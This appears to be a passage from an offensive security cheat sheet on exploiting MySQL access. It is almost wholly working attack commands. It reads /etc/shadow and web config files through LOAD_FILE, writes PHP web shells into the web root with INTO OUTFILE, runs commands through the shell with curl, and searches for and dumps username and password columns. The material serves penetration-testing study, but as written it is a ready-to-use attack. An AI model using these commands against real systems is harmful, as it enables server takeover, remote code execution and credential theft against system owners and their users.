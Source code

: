 ## File Operations

**Reading files (requires FILE privilege):**
```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/etc/shadow');
SELECT LOAD_FILE('/var/www/html/config.php');
```

**Writing files (requires FILE privilege and writable location):**
```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

**Note:** secure_file_priv setting may restrict file operations:
```sql
SHOW variables LIKE 'secure_file_priv';
```

If empty, files can be written anywhere. If set to a directory, only that directory is allowed.

## Web Shell Creation

**PHP web shell:**
```sql
SELECT '<?php echo system($_REQUEST["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

**Test web shell:**
```bash
curl http://$IP/shell.php?cmd=whoami
```

**Requirements:**
- FILE privilege
- Web server running
- Write access to web directory
- secure_file_priv allows it

## Database Content Analysis

**Search for password tables:**
```sql
SHOW tables LIKE '%pass%';
SHOW tables LIKE '%user%';
SHOW tables LIKE '%admin%';
```

**Search for sensitive columns:**
```sql
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%pass%';
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%email%';
```

**Extract credentials:**
```sql
SELECT username, password FROM users;
SELECT email, password FROM accounts;
```
